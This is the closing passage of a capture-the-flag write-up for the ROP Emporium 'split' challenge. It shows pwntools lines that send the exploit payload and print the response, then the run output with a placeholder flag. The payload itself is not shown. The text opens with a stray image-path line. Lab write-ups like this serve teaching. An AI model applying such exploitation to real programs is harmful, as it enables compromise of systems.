* Sending the payload:

```python3
p.sendline(payload)
```

* Receving and printing:

```python3
print(p.clean().decode("latin-1"))
```

* Running the script:


```
$ python3 exploit.py
[+] Starting local process './split': pid 22483
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> 
Thank you!
ROPE{a_placeholder_32byte_flag!}
```

And we got the flag!
